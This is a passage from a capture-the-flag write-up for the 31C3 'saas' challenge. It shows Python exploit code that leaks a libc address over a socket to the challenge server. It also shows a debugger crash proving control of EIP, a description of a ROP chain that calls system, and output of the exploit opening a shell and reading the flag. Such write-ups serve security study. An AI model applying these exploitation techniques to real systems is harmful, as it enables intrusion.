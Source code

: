     res = None
    while True:
        p = sock.recv(4096)
        m = re.search("Number 1 is now: (\d+)", p)
        if m:
            res = m.group(1)
        if "custom\n:" in p:
            break
    return int(res)

sock = socket.create_connection(("188.40.18.75", 1234))

wait_for("custom\n:")
libc_ret = swap(8, 0x41414141)
print "[*] leaked ret addr to libc_start_main =", hex(libc_ret)
{% endhighlight %}

And voila:

    $ python2 leak.py
    [*] leaked ret addr to libc_start_main = 0xf74aca83

The offset is different on my local machine because I have a different 
libc version installed.

Also, if we try this under a debugger, we get

    Program received signal SIGSEGV, Segmentation fault.
    0x41414141 in ?? ()
    gdb-peda$ 

So the swap worked and we control EIP.

## ROP

From here on it's a simple exercise: We know the libc base and we can write
arbitrary values onto the stack. We can just write a ROP payload, which is what
we did. The payload

1. `read`s a value from stdin into the libc's `.bss` segment
2. calls `system` with the received value as an argument

The [final exploit
code](https://github.com/kitctf/writeups/blob/master/31c3-ctf/saas/exploit.py)
reliably gives shell access and we are able to retrieve the flag

    $ python2 exploit.py
    [*] leaked libc base = 0xf745b000
    [*] writing ROP 0 0xf7536160
    [*] writing ROP 1 0xf7499760
    [*] writing ROP 2 0x0
    [*] writing ROP 3 0xf7605ec0
    [*] writing ROP 4 0x400
    [*] writing ROP 5 0xf7499770
    [*] writing ROP 6 0x0
    [*] writing ROP 7 0xf7605ec0
    [*] Enjoy your shell ;)
    cat /home/user/flag.txt
    31C3_n0tExactlyStrictWEakOrd3r1ng
